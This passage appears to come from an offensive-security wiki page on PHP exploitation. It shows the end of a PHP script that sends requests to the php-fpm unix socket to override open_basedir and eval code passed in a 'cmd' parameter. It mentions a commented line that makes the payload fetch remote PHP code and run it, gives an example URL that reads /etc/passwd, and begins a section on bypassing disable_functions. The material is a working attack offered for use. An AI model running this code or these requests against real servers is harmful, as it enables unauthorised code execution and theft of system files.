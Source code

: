 ```php
        'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
        'PHP_VALUE'         => $php_value,
        'SERVER_SOFTWARE'   => '80sec/wofeiwo',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
        );
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

This scripts will communicate with **unix socket of php-fpm** \(usually located in /var/run if fpm is used\) to execute arbitrary code. The `open_basedir` settings will be overwritten by the  **PHP\_VALUE** attribute that is sent.  
Note how `eval` is used to execute the PHP code you send inside the **cmd** parameter.  
Also note the **commented line 324**, you can uncomment it and the **payload will automatically connect to the given URL and execute the PHP code** contained there.  
Just access `http://vulnerable.com:1337/l.php?cmd=echo file_get_contents('/etc/passwd');` to get the content of the `/etc/passwd` file.

{% hint style="warning" %}
You may be thinking that just in the same way we have overwritten `open_basedir` configuration we can **overwrite `disable_functions`**. Well, try it, but it won't work, apparently **`disable_functions` can only be configured in a `.ini` php** configuration file and the changes you perform using PHP\_VALUE won't be effective on this specific setting. 
{% endhint %}

## disable\_functions Bypass

If you manage have PHP code executing inside a machine you probably want to go to the next level and **execute arbitrary system commands**.  In this situation is usual to discover that most or all the PHP **functions** that allow to **execute system commands have been disabled** in **`disable_functions`.**  
So, lets see how you can bypass this restriction \(if you can\)

### Automatic bypass discovery

You can use the tool [https://github.com/teambi0s/dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) and it will indicate you which technique you can use to bypass `disable_functions`.

### Bypassing using other system functions
